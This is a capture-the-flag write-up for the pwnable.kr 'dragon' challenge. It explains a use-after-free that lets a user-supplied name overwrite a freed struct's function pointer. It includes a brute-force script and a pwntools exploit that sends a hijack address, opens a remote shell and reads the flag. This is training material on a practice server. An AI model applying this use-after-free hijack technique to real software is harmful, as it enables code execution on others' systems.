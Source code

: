 At the end of the FightDragon function, if reAttack variable is positive, 16byte memory is allocated for `uName` variable. Prior to that, Dragon Structure \(16byte\) has freed, but after you enter a string for `uName` variable, `(Dragon->Function) (Dragon);` is called, and eventually, a UAF bug occurs and we can overwrite `Dragon->Function` pointer by `uName` value.

well, I've written a brute-force script to find possible scenario to fight and kill the mama Dragon. `check` function is similar PriestAttack function.

```py
def main():
    chars = "123"
    for length in range(1,15):
        attempts = product(chars, repeat=length)
        for item in attempts:
          if (check( ''.join(item) )):
              print "Seq :\t", flag

    print "Finish"
    """
    Result:
    Seq : 233233233***
    Seq : 323233233***
    Seq : 323323233***
    Seq : 323323323***
    Seq : 323323323***
    Seq : 332233233***
    Seq : 332323233***
    """

if __name__ == '__main__':
    main()
```

and here is my solution:

```py
from pwn import *


r = remote('pwnable.kr',9004)

seq = '111123323323****'

for item in seq:
    r.sendline(item)
    r.recv(1024)

r.sendline('\xbf\x8d\x04\x08')
r.recv(1024)
r.interactive()

"""
root@:~/Pwnable/Dragon# python dragon-sol.py
[+] Opening connection to pwnable.kr on port 9004: Done
[*] Switching to interactive mode
And The Dragon You Have Defeated Was Called:
$ ls
dragon
flag
log
super.pl
$ cat flag
MaMa, Gandhi *************
$ 
[*] Interrupted
[*] Closed connection to pwnable.kr port 9004
```